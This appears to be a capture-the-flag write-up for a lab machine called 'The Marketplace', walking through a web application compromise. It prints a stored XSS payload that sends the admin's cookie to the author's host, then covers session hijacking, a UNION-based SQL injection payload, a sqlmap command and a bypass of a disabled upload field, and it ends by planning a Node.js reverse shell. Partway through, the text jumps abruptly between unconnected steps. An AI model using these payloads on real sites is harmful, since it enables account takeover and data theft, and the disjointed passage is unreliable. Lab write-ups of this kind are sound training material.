 # The Marketplace

### The Marketplace
First create an account on the webpage (`test:test`), next step is to exploit a stored XSS vulnerability to steal michael's (the admin) cookie. The payload I used for XSS is `<script>new Image().src="http://10.11.127.156/steal.php?cookie=" + document.cookie;</script>`, if I open a python webserver on port 80 I get my own cookie. 
Luckily there's a button that allows me to report the listing to an admin, to make sure that his browser will view the XSS.<br />
![image](https://github.com/user-attachments/assets/8995c8e8-ec3c-4da0-b2fc-59ab16d5227d)<br />
So I report the listing and get the admin token on my webserver! The next step is to put it in the `cookie` variable from the developer's tools:<br />
![image](https://github.com/user-attachments/assets/5f76a337-1fb5-4c8e-9c44-baad24d55b4f)<br />
And now I have access to the `/admin` panel and got the first flag:<br />
![image](https://github.com/user-attachments/assets/4d42d3c0-14ca-4f8f-ad9a-eef41e8c8612)<br />
Now I need to get foothold on the machine. In the admin panel, I can select the "profile" of a user, and the URL becomes, for example, `/admin?user=1`. If I try to perform some SQL injection, I get this error: <br />
![image](https://github.com/user-attachments/assets/c53068ec-cd09-4f2e-b39f-6d4802b06d51)<br />
SQLMAP doesn't work, probably because there's some WAF that periodically changes michael's cookie. I need to exploit this SQL injection manually. First of all I need to know the number of columns of the table this query is about. After some enumeration the number of columns is `4`, because the payload that doesn't trigger an error is `?user=0 union select 1,2,3,4 -- -`:<br />
![Screenshot 2025-04-10 130639](https://github.com/user-attachments/assets/b250b695-0529-4b38-833b-a39a6eea8abf)<br />
As you can see the second column is reflected in the field `User`. This means that I can use it to enumerate the database.
sqlmap -r request.txt --batch --level 5 --risk 3 --dbs




and I think I need to work with the file upload. It is technically disabled, but it is just a front end filter. I can re-enable it by just deleting the `disabled` keyword from the html code in the developer's tools:<br />
![image](https://github.com/user-attachments/assets/44b21ce2-dad6-4bbc-8ec5-6e44b5fcde5f)<br />
Now, wappalyzer tells me that the web server is `express` and that the backup language is `node.js`:<br />
![image](https://github.com/user-attachments/assets/0f77507a-72d4-4946-b2ad-fe72eac83c74)<br />
This means that if I have to inject some kind of code to spawn a reverse shell it needs to be in `node.js`.

